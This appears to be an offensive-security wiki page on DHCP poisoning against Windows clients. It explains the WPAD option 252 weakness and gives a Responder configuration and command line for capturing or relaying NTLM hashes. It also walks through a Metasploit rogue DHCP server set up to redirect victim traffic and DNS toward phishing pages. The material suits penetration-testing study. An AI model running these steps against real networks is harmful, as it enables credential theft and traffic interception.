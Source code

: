 # ⭕ DHCP Poisoning

When a workstation reboots or plugs into a network, a broadcast DHCP request is emitted. It's goal is to ask for network settings like an IPv4 address.

> Windows uses several custom DHCP options such as NetBIOS, WINS, WPAD settings. When a workstation sends a DHCP request to get its networking settings, these additional settings can be included in the DHCP answer to facilitate straightforward connectivity and name resolution. _(_[_Laurent Gaffié_](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)_)_

​[DHCP's option 252](https://docs.microsoft.com/en-us/previous-versions/tn-archive/bb794881\(v=technet.10\)) provides Windows machines with a WPAD configuration. An attacker able to answer broadcast DHCP queries faster than the legit DHCP server can inject any network setting on the requesting client.

## <mark style="color:red;">Exploitation</mark>

​[Responder](https://github.com/SpiderLabs/Responder) (Python) (from v3.0.7.0) can be used to operate DHCP poisoning in the following manner.

* race against the legit DHCP server to answer `DHCP REQUEST` messages
* sent a DHCP ACK response with a rogue WPAD server address in `option 252` in the network parameters, with a short lease (10 seconds)
* wait the lease to expire so that the poisoned client asks for a new lease
* let the client obtain a legitimate lease from the real DHCP server, allowing the client to obtain the right network settings and have connectivity
* the injected WPAD server address will stay until the client reboots (that's how Windows works )
* with the injected WPAD server address, the Windows client will try to obtain the wpad.dat file on the rogue WPAD. Responder will then require the client to authenticate.

In order to start DHCP poisoning for WPAD spoofing with Responder, the `Responder.conf` file needs to be tweaked.

```
WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY ProxySrv:3128; PROXY ProxySrv:3141; DIRECT';}
```

The `ProxySrv` variable (in red in the following screenshot) needs to be replace by the rogue WPAD server (i.e. Responder IP address).

![](<../../../.gitbook/assets/image (261).png>)

The attack can then be started with the `-d/--DHCP` argument.

The `--wredir` and `--ProxyAuth` need to be added to force the Windows client to authenticate once the `wpad.dat` is accessed in order to capture hashes.

```
responder --interface "eth0" --wredir --ProxyAuth --NBTNSdomain --verbose
```

The proxy auth NTLM authentication can either be captured with Responder with the command line above or relayed with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (by using the `--http-port 3128` argument. The `--wredir` and `--ProxyAuth` arguments need to be removed from Responder's command line.).

{% embed url="https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html" %}

## <mark style="color:red;">Metasploit Rogue DHCP Server</mark>

Since a DHCP server typically provides the default gateway information to client devices, if the DHCP server were to provide another path to the internet, let's say through an attacker machine, the client (victim) machine would accept the new path and forward their packet accordingly. Additionally, changing the DNS server configurations on a client machine to forward all DNS queries to a fake DNS server can result in the loading of phishing web pages on a victim's browser. In this section, we will create a rogue DHCP server to redirect victims' traffic on the network. To get started, we will use the Metasploit framework to create our rogue DHCP server:

1. Enable the PostgreSQL database and Metasploit by using the following commands:
   * &#x20;service postgresql start
   * &#x20;msfconsole
2. Metasploit contains a module that allows us to enable a DHCP server. Use the commands as shown in the following screenshot:

![](<../../../.gitbook/assets/image (49) (1) (1) (1).png>)

We will set the start and end IP addresses, the network broadcast address, the network mask (subnet mask), the DNS server, the default gateway (default router) and the IP address of the rogue DHCP server. The following screenshot demonstrates how to set the values for each parameter:

![](<../../../.gitbook/assets/image (22) (1) (1).png>)

